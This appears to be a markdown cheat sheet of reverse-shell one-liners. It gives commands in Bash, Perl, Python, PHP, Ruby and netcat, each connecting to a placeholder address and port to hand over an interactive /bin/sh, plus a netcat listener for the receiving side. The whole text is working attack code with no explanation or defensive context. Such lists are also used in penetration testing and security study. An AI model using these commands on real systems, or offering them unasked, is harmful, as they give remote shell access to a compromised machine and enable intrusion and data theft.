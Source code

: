 # Reverse shell

### Bash

``` sh
bash -i >& /dev/tcp/127.0.0.1/9999 0>&1
```

### Perl

``` perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

``` Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

``` php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

``` ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### NetCat

``` sh
nc -e /bin/sh 127.0.0.1 9999
```

> Server: nc -lvv -p 9999
